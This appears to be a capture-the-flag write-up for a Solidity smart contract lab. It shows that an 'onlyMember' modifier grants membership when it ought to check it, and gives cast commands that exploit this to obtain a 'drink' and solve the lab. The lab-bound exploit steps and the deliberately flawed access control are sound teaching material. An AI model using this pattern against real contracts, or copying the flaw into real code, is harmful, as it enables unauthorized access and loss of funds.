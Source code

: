 To solve the lab, we need to make *Setup::playerSolved()* return true. Here is the code.
&nbsp;  
&nbsp;  
```solidity
function solvedByPlayer() public {
    playerSolved = bar.beerGlass(msg.sender) >= 1 ? true : false;
}

function isSolved() public view returns(bool){
    return playerSolved;
}
```
&nbsp;  
We first need to call the *solvedByPLayer()* function, because that function will update the state of the *playerSolved()* bool. After that, we can just simply press the *Flag* button on the instance. Let's first look for a function that will modify *beerGlass*.
&nbsp;  
&nbsp;  
```solidity
function register() public payable isHuman{
    // You can register here, but still need the Onwer to add you in.
    require(msg.value >= 1e18, "Need 1 ether deposit.");
    balance[msg.sender] += msg.value;
}

function addMember(address _addMember) public isHuman onlyOwner(_addMember){
    require(balance[_addMember] > 0, "You need to deposit some money to become a member.");
    barMember[_addMember] = true;
}

function getDrink() public isHuman onlyMember{
    require(balance[msg.sender] > 0, "You need to deposit some money.");
    require(barMember[msg.sender] == true);
    beerGlass[msg.sender]++;
}
```
&nbsp;  
We have some options. There are *register()*, *addMember()*, and *getDrink()*; based on what we need, we have to call *getDrink()*, but there is a modifier called *onlyMember* and *isHuman*, plus we need our balance to be greater than zero. From the function alone, what we can tell is that to become a member, the *owner* must add the member manually by calling the *addMember()*; we can still call *register()* with the value 1 ether. Let's look at the rest of the code now. &nbsp;  
&nbsp;  
```solidity
modifier isHuman(){
    require(msg.sender == tx.origin, "Only Human Allowed in this Bar!");
    _;
}

modifier onlyOwner(address _addMember) {
    require(owner == msg.sender, "Only Owner can add Member!");
    _;
}

modifier onlyMember() {
    barMember[msg.sender] = true;
    _;
}

receive() external payable{
    balance[msg.sender] += msg.value;
}
```
&nbsp;  
There are 3 modifiers that exist in the contract. The *isHuman()* modifier ensures that the *msg.sender* is the same as *tx.origin*, meaning only EOA can interact with the contract. The *onlyOwner()* has 1 parameter, which is *_addMember*. Now *onlyMember()* modifier is quite different than another modifier, instead of ensuring a condition, it actually sets a condition, especially *msg.sender*; it sets the *barMember[msg.sender]* to become true, this is clearly a flaw by the developer. &nbsp;  
&nbsp;  
Earlier we knew that the *getDrink()* function used this modifier. This means what left now is giving ourselves some balance either by calling the *register()* function or directly sending the contract some balance because it has *receive() external payable* defined there and directly adds the amount to our balance. Okay then, the solution should be &nbsp;  
&nbsp;  
```bash
// get the bar contract address
cast call -r $RPC_URL $SETUP_ADDR "bar()"

// send some money to the contract
cast send -r $RPC_URL --private-key $PK $BAR_ADDR --value 1ether

// get ourselves some drink
cast send -r $RPC_URL --private-key $PK $BAR_ADDR "getDrink()"

// call setup.sol::solvedByPlayer()
cast send -r $RPC_URL --private-key $PK $SETUP_ADDR "solvedByPlayer()"
```
&nbsp;  
After that we just need to click Flag, and we should've solved the lab.